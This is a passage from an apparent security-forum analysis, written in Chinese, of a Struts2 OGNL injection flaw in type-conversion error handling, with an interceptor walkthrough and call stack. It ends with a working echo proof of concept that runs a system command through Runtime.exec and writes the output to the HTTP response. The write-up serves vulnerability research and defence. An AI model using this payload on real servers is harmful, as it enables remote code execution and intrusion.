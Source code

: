 [![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-eabdf46b521693d020a7bf305c7ea34e6fe70789.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-eabdf46b521693d020a7bf305c7ea34e6fe70789.png)

另外，还会将类型转化失败的参数值传入`getOverrideExpr()`方法进行处理，处理后再通过回调的方式保存到当前值栈ValueStack对象的属性`overrides`中，该属性是一个`Map`集合。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1e45cfc3eea493ab8428d99e23141ceb75f9efdc.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1e45cfc3eea493ab8428d99e23141ceb75f9efdc.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c6702c5309dd09284cd3a783bff009d3cd811d04.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c6702c5309dd09284cd3a783bff009d3cd811d04.png)

问题就出现在这个`getOverrideExpr()`，这里只是简单的用单引号`'`包裹文本框输入。所以输入的时候添加单引号`'`将这里的单引号闭合即可让OGNL表达式跳出单引号的包裹。

拦截器`StrutsConversionErrorInterceptor`处理完后就将执行的控制权移交给下一个拦截器`AnnotationValidationInterceptor`。

`AnnotationValidationInterceptor`的职责就是获取应用程序定义的校验器(validator)，并使用这些校验器对用户输入进行校验，结果是校验失败。校验结束后，将执行的控制权移交给最后一个拦截器`DefaultWorkflowInterceptor`。

由于在`AnnotationValidationInterceptor`中使用校验器校验用户输入的结果是校验失败，所以在`DefaultWorkflowInterceptor`中就根据该结果，返回字符串`"input"`，产生的结果就是返回`input`视图页面，从而中止了整个执行栈的调度执行。

接着就是构造`input`的视图页面，它是JSP页面，所以后面的漏洞触发流程也就跟`S2-001`差不多了，调用栈如下：

```php
TextFieldTag#doEndTag()
  ComponentTagSupport#doEndTag()
    UIBean#end()
      UIBean#evaluateParams()
        Component#findValue()
          TextParseUtil#translateVariables()
            OgnlValueStack#findValue()
              OgnlValueStack#tryFindValueWhenExpressionIsNotNull()
                OgnlValueStack#tryFindValue()
                  OgnlValueStack#lookupForOverrides()
                  OgnlValueStack#getValue()
```

其中，在`OgnlValueStack#lookupForOverrides()`方法中会取出当前值栈的`overrides`属性，该属性中存放了前面类型转化失败的入参，也就是文本框中输入的内容。取出来后进行OGNL表达式计算。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-df0f7a9019005f2dea81e1a4a9fc957f1e00424e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-df0f7a9019005f2dea81e1a4a9fc957f1e00424e.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-086ea6f981aa840bb56f28f05d1814babbadc88c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-086ea6f981aa840bb56f28f05d1814babbadc88c.png)

至此，该漏洞的原理分析完了。

### 可回显PoC

```php
' + (
#_memberAccess.allowStaticMethodAccess=true,
#context['xwork.MethodAccessor.denyMethodExecution']=false,
#ret=@java.lang.Runtime@getRuntime().exec('id'),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#ret.getInputStream())),
#res=new char[20000],
#br.read(#res),
#writer=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),
#writer.println(new java.lang.String(#res)),
#writer.flush(),
#writer.close()
) + '
```
